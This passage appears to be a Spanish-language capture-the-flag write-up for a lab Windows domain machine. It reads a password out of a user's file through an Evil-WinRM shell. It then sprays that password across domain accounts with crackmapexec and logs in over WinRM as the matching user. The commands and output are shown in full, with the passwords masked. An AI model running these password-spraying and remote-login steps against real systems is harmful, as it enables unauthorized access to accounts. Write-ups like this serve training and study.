 Vamos a leerlo:
```batch
*Evil-WinRM* PS C:\Temp> type "C:\Users\Doraemon\Links\Carta de amor a Shizuka.txt"
Shizuka te doy la clave de mi corazon: ********
```
Parece que tenemos la contraseña de alguien.

Podemos probar a quién pertenece aplicando **Password Spraying**:
```bash
crackmapexec smb 192.168.10.5 -u AD_users.txt -p '***********' --continue-on-success --no-brute
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:DORAEMON.THL) (signing:True) (SMBv1:True)
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\administrador:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\guest:*********** 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\invitado:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Nobita:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Shizuka:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Suneo:*********** 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Gigante:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [-] DORAEMON.THL\Doraemon:*********** STATUS_LOGON_FAILURE 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Dorayaki1:*********** 
SMB         192.168.10.5    445    WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Estepona:***********
```
La contraseña pertenece al **usuario Suneo**.

Probemos si sirve para el **servicio WinRM**:
```bash
crackmapexec winrm 192.168.10.5 -u 'Suneo' -p '***********'
SMB         192.168.10.5    5985   WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 (name:WIN-VRU3GG3DPLJ) (domain:DORAEMON.THL)
HTTP        192.168.10.5    5985   WIN-VRU3GG3DPLJ  [*] http://192.168.10.5:5985/wsman
WINRM       192.168.10.5    5985   WIN-VRU3GG3DPLJ  [+] DORAEMON.THL\Suneo:*********** (Pwn3d!)
```
Genial.

Vamos a loguearnos como el **usuario Suneo** al **servicio WinRM**:
```batch
evil-winrm -i 192.168.10.5 -u 'Suneo' -p '*********'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Suneo\Documents> whoami
doraemon\suneo
```
Estamos dentro.
